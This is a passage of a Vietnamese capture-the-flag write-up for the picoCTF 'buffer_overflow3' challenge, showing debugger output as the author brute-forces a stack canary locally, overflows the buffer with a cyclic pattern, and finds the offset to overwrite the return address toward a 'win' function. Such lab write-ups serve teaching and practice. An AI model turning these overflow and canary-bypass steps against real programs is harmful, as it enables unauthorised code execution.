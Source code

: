* Chạy ở local và tìm đc canary
```
└─$ python3 brute_force.py
...
[+] Starting local process './vuln': pid 953
[+] Receiving all data: Done (29B)                                                                                                                                                                               [*] Process './vuln' stopped with exit code 0 (pid 953)
test
```
* Chương trình đã hoạt động, bây giờ cần tìm offset để ta có thể ghi đè địa chỉ hàm `win`
```
gef➤  r
Starting program: /mnt/c/Users/levan/OneDrive/Documents/CTF/picoCTF/buffer_overflow3/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
How Many Bytes will You Write Into the Buffer?
> 168
Input> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaatestaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```
* Đầu vào sẽ là 64 kí tự + canary + pattern
* Chương trình bị crash thu được lỗi
```
─────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0
$ebx   : 0x61616163 ("caaa"?)
$ecx   : 0x0
$edx   : 0xf7fb18a0  →  0x00000000
$esp   : 0xffffcd70  →  "faaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaara[...]"
$ebp   : 0x61616164 ("daaa"?)
$esi   : 0x08049640  →  <__libc_csu_init+0000> endbr32
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x61616165 ("eaaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
─────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcd70│+0x0000: "faaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaara[...]"    ← $esp
0xffffcd74│+0x0004: "gaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasa[...]"
0xffffcd78│+0x0008: "haaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaata[...]"
0xffffcd7c│+0x000c: "iaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaaua[...]"
0xffffcd80│+0x0010: "jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaava[...]"
0xffffcd84│+0x0014: "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
0xffffcd88│+0x0018: "laaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxa[...]"
0xffffcd8c│+0x001c: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
───────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616165
───────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x61616165 in ?? (), reason: SIGSEGV
```
* Thu được offset
```
gef➤  pattern offset 0x61616165
[+] Searching for '65616161'/'61616165' with period=4
[+] Found at offset 16 (little-endian search) likely
```
